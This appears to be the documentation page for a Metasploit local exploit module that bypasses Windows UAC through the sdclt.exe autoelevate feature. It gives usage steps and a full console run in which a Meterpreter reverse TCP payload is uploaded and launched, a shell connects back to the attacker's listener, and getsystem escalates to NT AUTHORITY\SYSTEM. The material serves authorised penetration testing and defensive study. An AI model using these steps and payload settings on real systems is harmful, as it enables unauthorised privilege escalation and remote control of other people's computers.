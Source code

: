 ## Introduction

This module exploits an autoelevate feature in the windows backup
system's sdclt.exe binary to run as a higher integrity process.

## Usage

1. Create a session on the target system under the context of a local administrative user.
2. Begin interacting with the module: `use exploit/windows/local/bypassuac_sdclt`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenarios

### Windows 10.0.17134 x64

```
msf5 exploit(windows/local/bypassuac_sdclt) > show options

Module options (exploit/windows/local/bypassuac_sdclt):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION       1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] exploit_file = C:\Windows\System32\sdclt.exe
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Making Payload
[*] reg_command = C:\Windows\System32\cmd.exe /c start C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\sdclt.exe
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49679) at 2019-10-25 14:55:08 -0500
[*] Removing Registry Changes
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
